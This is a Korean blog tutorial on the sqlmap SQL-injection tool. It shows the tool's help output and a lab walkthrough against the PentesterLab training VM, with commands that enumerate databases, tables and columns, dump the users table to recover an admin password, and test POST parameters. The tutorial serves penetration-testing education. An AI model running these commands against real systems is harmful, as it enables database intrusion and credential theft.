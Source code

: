 ```yaml
---
title: "SQLMap 사용법"
tags: [database, sqlmap]
author: eli_ez3r
key: 20191025
modify_date: 2019-10-25
article_header:
  type: cover
  image:
    src:
---
```


## 0x00. 개요

 **[sqlmap]( http://sqlmap.org/ )(automatic SQL injection and database takeover tool)**은 공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구이다. 

SQL 구문삽입 공격은 DB 구조 파악이 가장 힘든 작업인데, 수작업으로 진행하기에는 매우 많은 시간이 걸린다. `sqlmap`은 DB 구조파악, 테이블 내용 유출 등을 자동화해주기 떄문에 웹취약점에 대한 수동분석 과정에서 상당히 많은 시간을 절약할 수 있게 도와주는 매우 훌륭한 프로그램이다. 

-----



## 0x01. 설치방법

Linux 시스템에서 다음과 같이 간단하게 설치할 수 있다.

```
apt-get install sqlmap -y
```

-----



## 0x02. 사용법

### (1) 도움말

다음 명령어를 통해서 `sqlmap`에 대한 도움말을 볼 수 있다.(보다 자세한 도움말을 보려면 `sqlmap -hh`)

```
sqlmap -h
```

```
root@ubuntu:~# sqlmap -h
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH    SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

-----



## 0x03. 실습

sqlmap 실습을 위해서 [PentesterLab의 From SQL Injection to Shell 훈련장]( https://pentesterlab.com/exercises/from_sqli_to_shell/course )을 대상으로 진행한다.

실제 서버를 공격하여 생기는 책임은 본인에게 있음을 경고합니다..{:.warning} 

 ![Image](2019-10-25-study-db-sqlmap.assets/image-20191025114201321.png){:.border.rounded} 

![image](2019-10-25-study-db-sqlmap.assets/image-20191025114516313.png){:.border.rounded}



### (1) GET 방식 입력 값 점검

다음 명령어를 이용하여 GET방식의 입력값 점검을 할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1"
```

 ![img](2019-10-25-study-db-sqlmap.assets/SNAGHTML38e12cd3.PNG) {:.border.rounded}  

OS정보와 Web Application정보, DBMS정보등을 알아오는 것을 알 수 있다.



사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](2019-10-25-study-db-sqlmap.assets/image-20191025122018616.png) {:.border.rounded} 



#### 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](2019-10-25-study-db-sqlmap.assets/image-20191025122242193.png){:.border.rounded} 

해당 데이터베이스의 테이블들을 조회한 모습을 볼수 있다.



#### 컬럼 목록 조회

이제 해당 테이블의 컬럼 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](2019-10-25-study-db-sqlmap.assets/image-20191025122542041.png) {:.border.rounded} 



#### 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](2019-10-25-study-db-sqlmap.assets/image-20191025122738312.png) {:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.

-----



### (2) POST 방식 입력 값 점검

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

